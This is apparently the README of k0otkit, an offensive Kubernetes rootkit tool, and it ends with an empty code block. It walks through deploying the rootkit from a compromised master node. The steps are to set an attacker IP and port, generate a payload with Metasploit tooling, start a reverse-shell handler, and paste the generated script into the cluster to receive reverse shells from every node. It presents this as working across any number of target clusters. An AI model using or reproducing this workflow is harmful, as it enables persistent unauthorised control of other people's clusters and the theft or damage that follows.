 # k0otkit - Manipulate K8s in a K8s way

## Introduction

k0otkit <- Kubernetes + rootkit



## Usage

Make sure you have got the root shell on the master node of the target Kubernetes. (You can also utilize k0otkit if you have the admin privilege of the target Kubernetes, though you might need to modify the `kubectl` command in `k0otkit_template.sh` to use token or certification.)

Make sure you have installed Metasploit on your attacker host (msfvenom and msfconsole should be available).

**Deploy k0otkit**

Clone this repository:

```bash
git clone https://github.com/brant-ruan/k0otkit
cd k0otkit/
chmod +x ./*.sh
```

Replace the attacker's IP and port in `pre_exp.sh` with your own IP and port:

```bash
ATTACKER_IP=192.168.1.107
ATTACKER_PORT=4444
```

Generate k0otkit:

```bash
./pre_exp.sh
```

`k0otkit.sh` will be generated. Then run the reverse shell handler:

```bash
./handle_multi_reverse_shell.sh
```

Once the handler is ready, copy the content of `k0otkit.sh` and paste it into your shell on the master node of the target Kubernetes, then press `<Enter>` to execute it.

Wait a moment and enjoy reverse shells from all nodes.

P.S. It is not limited how many Kubernetes clusters you manipulate with k0otkit.

**Interact with Shells**

After the successful deployment of k0otkit, you can interact with any reverse shell as you want:

```bash
```